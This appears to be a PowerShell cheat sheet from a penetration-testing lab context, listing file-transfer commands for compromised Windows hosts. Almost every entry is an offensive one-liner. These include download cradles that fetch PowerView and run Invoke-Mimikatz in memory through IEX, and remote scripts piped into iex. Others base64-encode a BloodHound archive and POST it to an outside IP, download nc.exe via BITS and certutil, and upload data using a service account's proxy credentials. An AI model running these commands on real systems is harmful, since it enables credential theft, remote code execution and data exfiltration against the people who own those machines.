 # powershell_cmds

## Change all file names to lower case in the current directory

```Powershell
Get-ChildItem | Rename-Item -NewName {$_.Name -replace $_.Name, $_.Name.ToLower()}
```

## Downloading file from raw github content via System.Net.WebClient
```Powershell
(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

## Downloading file from raw github content via Invoke-WebRequest (slower for downloading files)

```Powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
## Invoking payload in memory

```Powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

## If IE configuration hasn't been finished, use the -UseBasicParsing option

```Powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
```

## Disable IE First Run Customization

```Powershell
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```

## Other Powershell Download Cradles

https://gist.github.com/HarmJ0y/bb48307ffa663256e239

## Uploading Files using Invoke-WebRequest

```Powershell
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```

## Background Intelligent Transfer Service (BITS) for HTTP sites and SMB shares

```Powershell
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

## BITS can utilize service credentials and proxy servers

### Download

```Powershell
PS C:\htb> Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Upload

```Powershell
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

## Certutil (recognized by AMSI - Antimalware Scan Interface - as abusing)

```Powershell
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```


